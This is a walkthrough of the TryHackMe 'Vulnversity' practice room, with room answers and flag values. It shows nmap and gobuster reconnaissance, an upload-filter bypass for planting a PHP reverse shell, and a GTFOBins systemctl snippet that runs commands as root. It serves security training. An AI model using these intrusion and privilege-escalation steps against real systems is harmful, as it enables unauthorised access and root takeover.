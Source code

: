 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Cover.png" alt="Vulnversity Logo">
</p>

# [Vulnversity](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/vulnversity)

This guide contains the answer and steps necessary to get to them for the [Vulnversity](https://tryhackme.com/room/vulnversity) room.

## Table of contents

- [Reconnaissance](#reconnaissance)
- [Locating directories using GoBuster](#locating-directories-using-gobuster)
- [Compromise the webserver](#compromise-the-webserver)
- [Privilege Escalation](#privilege-escalation)

## Reconnaissance

In this task we will be using `nmap` to find out more about our target machine. We can get the answers for all these question with the following command:

```cmd
nmap -sV 10.10.70.180
```

![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Nmap.png)

2. Scan the box, how many ports are open?
   
   Just count the number of services listed on the scan.
   
   ><details><summary>Click for answer</summary>6</details>
   
3. What version of the squid proxy is running on the machine?

   This information is given through the `-sV` argument.

   ><details><summary>Click for answer</summary>3.5.12</details>

4. How many ports will nmap scan if the flag -p-400 was used?

   Using `nmap --help` we can get more information on the various arguments. 

   ><details><summary>Click for answer</summary>400</details>

5. Using the nmap flag -n what will it not resolve?

   Using `nmap --help` we can get more information on the various arguments. 

   ><details><summary>Click for answer</summary>DNS</details>

6. What is the most likely operating system this machine is running?

   For this we can look at the information on the various services. 

   ><details><summary>Click for answer</summary>Ubuntu</details>

7. What port is the web server running on?

   This can also be found on the scan results. Look for an Apache/http service.

   ><details><summary>Click for answer</summary>3333</details>
   
## Locating directories using GoBuster

In this task we will be using `dirsearch` or ` gobuster` to find any hidden directories on the webserver.

2. What is the directory that has an upload form page?

   For this we can use both `dirsearch` and `gobuster`, the commands are similar and the results as well.
   
   ```cmd
   dirsearch -u http://10.10.70.180:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   
   gobuster dir -u http://10.10.70.180:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   ```
   
   ![Dirsearch Results](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Dirsearch.png)
   
   ![Gobuster Results](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Gobuster.png)
   
   After navigating to the results we find here, we can see which directory has an upload form.
   
   ![Website Form](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Form.png)

   ><details><summary>Click for answer</summary>/internal/</details>

## Compromise the webserver

In this task we will exploit the filtering of a file upload form to get a reverse shell.

1. What common file type, which you'd want to upload to exploit the server, is blocked? Try a couple to find out.

   We can download one of the images we found on the other directory with:
   
   ```cmd
   curl http://10.10.70.180:3333/images/loc.png --output loc.png
   ```
   
   Then make a couple copies with different extensions such as: `.php`, `.html`, `.js`, `.jpg` etc. We can upload them to the webserver to find out which ones are blocked.
   
   ![Form Upload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Upload.png)

   ><details><summary>Click for answer</summary>.php</details>

3. Run this attack, what extension is allowed?

   We open the form again in our browser and enable FoxyProxy to intercept the traffic with BurpSuite. We upload an example file and send the intercepted request to intruder.
   
   ![Burp Proxy](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Burp_Proxy.png)
   
   Go to Intruder and the positions tab. Here we need to clear all and add a position for the extension as followed.
   
   ![Burp Intruder](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Burp_Intruder.png)
   
   Next, in the payload tab we need to add the extension for Burpsuite to try.
   
   ![Burp Payload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Burp_Payload.png)
   
   Set the attack mode to sniper and start the attack.
   
   ![Burp Results](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Burp_Intruder_Result.png)
   
   We should be seing one of the extensions to have either a different status or length. Unfortunately, for some reason, it couldn't get it to work. After manually trying, I found `.phtml` to be working.

   ><details><summary>Click for answer</summary>.phtml</details>

5. What is the name of the user who manages the webserver?

   To get into the system we can use a `php-reverse-shell`. These can be found in `/usr/share/webshells/`. We just need to edit the file to contain our machines IP address and a port we want to use.
   
   ![Reverse Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Reverse_Shell_Script.png)
   
   After uploading we start a listener on port 1337 with netcat and navigate to `internal/uploads` to access our shell.
   
   ![Netcat](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Netcat.png)
   
   To find any users on the machine we can either enumerate the home directory or look at the `passwd` file.
   
   ```cmd
   ls -lh /home/
   ```
   
   ![Users](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_User.png)

   ><details><summary>Click for answer</summary>bill</details>

6. What is the user flag?

   We can navigate to bill home folder and look for the flag.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Flag.png)

   ><details><summary>Click for answer</summary>8bd7992fbe8a6ad22a63361004cfcedb</details>

## Privilege Escalation

In this task we will escalate our priveleges with SUID exploitation.

1. On the system, search for all SUID files. What file stands out?

   We can look for any binaries with their SUID bit set with:
   
   ```cmd
   find / -perm -4000 2>/dev/null
   ```
   
   ![SUID](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_SUID.png)
   
   Checking GTFOBins, we come accross `systemctl` which we can use without `sudo`.
   
   ><details><summary>Click for answer</summary>/bin/systemctl</details>

2. Become root and get the last flag (/root/root.txt)

   Using the commands from GTFOBins we can write a custom code snippet to enter into the shell:
   
   ```cmd
   TF=$(mktemp).service
   echo '[Service]
   Type=oneshot
   ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output.txt"
   [Install]
   WantedBy=multi-user.target' > $TF
   /bin/systemctl link $TF
   /bin/systemctl enable --now $TF
   ```
   
   ![GTFOBins Systemctl](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_GTFOBins.png)
   
   We use the `/tmp/` folder as this is usually always accessible for everyone on the machine.
   
   I didn't have any luck at first, so I tried again after stabalizing our shell on the machine with:
   
   ```cmd
   python -c 'import pty; pty.spawn("/bin/bash")'
   ```
   
   ![Shel Stabalize](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Shell_Stabalize.png)
   
   Trying again did yield a results, but I had to hit `enter` again for the final command to execute. Now we can navigate to the output file and read its contents.
   
   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Root_Flag.png)

   ><details><summary>Click for answer</summary>a58ff8579f0a9270368d33a9966c7fd5</details>
